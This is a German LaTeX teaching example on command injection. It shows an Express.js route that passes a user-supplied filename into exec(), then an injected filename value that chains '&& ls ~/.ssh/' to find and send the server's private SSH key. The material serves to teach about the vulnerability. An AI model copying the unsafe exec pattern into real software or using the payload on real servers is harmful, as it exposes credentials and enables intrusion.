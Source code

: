\begin{example}{Command Injection}
    Folgende Route bekommt einen potentiell unvollständigen Dateinamen und sucht im Dateisystem nach passenden Dateien. \\
    \texttt{exec} führt einen Befehl lokal auf dem Server aus und benötigt ein callback für Fehler-Codes, Output (\texttt{1> stdout}) und Fehler (\texttt{2> stderr}). \\
    \texttt{path\_from} parsed die Ausgabe potentiell mehrerer Dateien in einen eindeutigen Pfad.

    \begin{lstlisting}[language=JavaScript]
        module.exports = express.Router()
            .post('/', (req, res) =>
                exec(`ls ../public/files -al | grep "${req.body.filename}"`, (error, stdout, stderr) => 
                    res.sendFile(path_from(stdout))
                )
            )
    \end{lstlisting}

    \emph{Erwarteter Aufruf}: \\
    \texttt{POST http://localhost:3000/file} \\
    \texttt{data: \{ \enquote{filename}: \enquote{glumanda} \}}

    \emph{Erzeugter Befehl}:
    \begin{lstlisting}[language=bash]
        ls ../public/files -al | grep "glumanda" # Glumanda.pdf wird gefunden und versendet
    \end{lstlisting}

    \emph{Angriff mittels Command Injection}: \\
    \texttt{POST http://localhost:3000/file} \\
    \texttt{data: \{ \enquote{filename}: \enquote{'' \&\& ls \textasciitilde /.ssh/ -al | grep ''id\_rsa''} \}}

    \emph{Erwarteter Aufruf}:
    \begin{lstlisting}[language=bash]
        ls ../public/files -al | grep "" && ls ~/.ssh/ -al | grep "id_rsa"
        # private ssh key wird versendet
    \end{lstlisting}
\end{example}

